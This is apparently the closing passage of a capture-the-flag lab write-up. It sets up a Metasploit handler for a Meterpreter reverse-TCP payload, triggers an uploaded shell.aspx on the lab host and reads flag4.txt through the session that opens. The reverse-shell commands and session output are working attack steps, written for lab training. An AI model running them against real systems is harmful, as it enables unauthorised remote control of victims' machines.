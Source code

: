 Deploying receive back connection:

```bash
msf6 exploit(multi/handler) > set lhost 10.10.47.2
lhost => 10.10.47.2
msf6 exploit(multi/handler) > set lport 1234
lport => 1234
msf6 exploit(multi/handler) > set payload  windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.47.2:1234 
```

Now that we deployed full setup let’s start executing the reverse shell! Navigate to `http://target.ine.local/shell.aspx` in the browser. we should observe that we have successfully obtained the shell.

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.47.2:1234 
[*] Sending stage (201798 bytes) to 10.5.29.153
[*] Meterpreter session 1 opened (10.10.47.2:1234 -> 10.5.29.153:49277) at 2025-05-31 20:25:49 +0530

meterpreter > cd /
meterpreter > dir
Listing: c:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2020-09-10 15:20:33 +0530  $Recycle.Bin
100666/rw-rw-rw-  1       fil   2013-06-18 17:48:29 +0530  BOOTNXT
040777/rwxrwxrwx  0       dir   2013-08-22 20:18:41 +0530  Documents and Settings
040777/rwxrwxrwx  0       dir   2013-08-22 21:22:33 +0530  PerfLogs
040555/r-xr-xr-x  4096    dir   2020-08-12 09:43:47 +0530  Program Files
040777/rwxrwxrwx  4096    dir   2022-11-15 12:21:37 +0530  Program Files (x86)
040777/rwxrwxrwx  4096    dir   2020-09-05 14:35:45 +0530  ProgramData
040777/rwxrwxrwx  0       dir   2024-06-13 14:11:17 +0530  Shares
040777/rwxrwxrwx  0       dir   2020-09-05 09:16:57 +0530  System Volume Information
040555/r-xr-xr-x  4096    dir   2025-01-09 11:06:51 +0530  Users
040777/rwxrwxrwx  24576   dir   2025-01-09 11:00:26 +0530  Windows
100444/r--r--r--  398356  fil   2014-03-18 15:35:18 +0530  bootmgr
100666/rw-rw-rw-  34      fil   2025-05-31 20:16:14 +0530  flag4.txt
040777/rwxrwxrwx  0       dir   2024-06-13 16:05:01 +0530  inetpub
000000/---------  0       fif   1970-01-01 05:30:00 +0530  pagefile.sys

meterpreter > cat flag4.txt 
eb2aba7543c844ea977fdf6*******
meterpreter > 

```

 

With that we found all the flag in this machine!!!
